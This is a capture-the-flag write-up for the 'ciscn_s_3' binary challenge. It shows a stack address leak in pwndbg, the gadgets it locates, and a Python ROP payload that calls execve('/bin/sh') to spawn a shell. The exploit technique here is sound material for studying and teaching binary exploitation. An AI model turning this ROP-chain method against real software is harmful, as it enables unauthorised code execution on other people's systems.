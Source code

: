 # ciscn\_s\_3
 - 2 `syscall` in function `vuln`
  - `read(0,buf,0x400)`
  - `write(1,buf,0x30)`
 - `gadget`: `mov eax,0x3b; ret` in elf
  - `syscall` : `execve`
## leak stack addr

```
 ► 0x400517 <vuln+42>    syscall  <SYS_write>
        fd: 0x1
        buf: 0x7fffffffdaf0 ◂— 'AAAAAAAA\n'
        n: 0x30
   0x400519 <vuln+44>    ret    

# after write

pwndbg> x/6xg 0x7fffffffdaf0
0x7fffffffdaf0:	0x4141414141414141	0x000000000000000a
0x7fffffffdb00:	0x00007fffffffdb20	0x0000000000400536
0x7fffffffdb10:	0x00007fffffffdc08	0x0000000100000000

pwndbg> p 0x00007fffffffdc08 - 0x7fffffffdaf0
$1 = 280
```
 - buf = [buf+0x20] - 280

## execve('/bin/sh',0,0)
 - eax <- 0x3b
 - rdi <- '/bin/sh'
 - rsi <- 0
 - rdx <- 0
 - syscall

### clear rsi,rdi
```
.text:0000000000400580                 mov     rdx, r13
.text:0000000000400583                 mov     rsi, r14
.text:0000000000400586                 mov     edi, r15d
.text:0000000000400589                 call    qword ptr [r12+rbx*8]
.text:000000000040058D                 add     rbx, 1
.text:0000000000400591                 cmp     rbx, rbp
.text:0000000000400594                 jnz     short loc_400580

.text:0000000000400596                 add     rsp, 8
.text:000000000040059A                 pop     rbx
.text:000000000040059B                 pop     rbp
.text:000000000040059C                 pop     r12
.text:000000000040059E                 pop     r13
.text:00000000004005A0                 pop     r14
.text:00000000004005A2                 pop     r15
.text:00000000004005A4                 retn

```

### set eax
```
   0x4004e2 <gadgets+12>:   mov    rax,0x3b
   0x4004e9 <gadgets+19>:   ret    

```

### set rdi
```
 prdi = 0x00000000004005a3 # pop rdi ; ret

```

### payload
```python 
# rop2
# execve(binsh, 0,  0  )
#  regs:  rdi  rsi rdx

payload2 = '/bin/sh\0' + p64(gadget)
payload2 += p64(p6r) + p64(0) + p64(1) + p64(binsh+0x8) + p64(0) + p64(0) + p64(binsh)
payload2 += p64(m3c) + p64(0xdeadbeef)*7
payload2 += p64(prdi) + p64(binsh)
payload2 += p64(syscall)

```
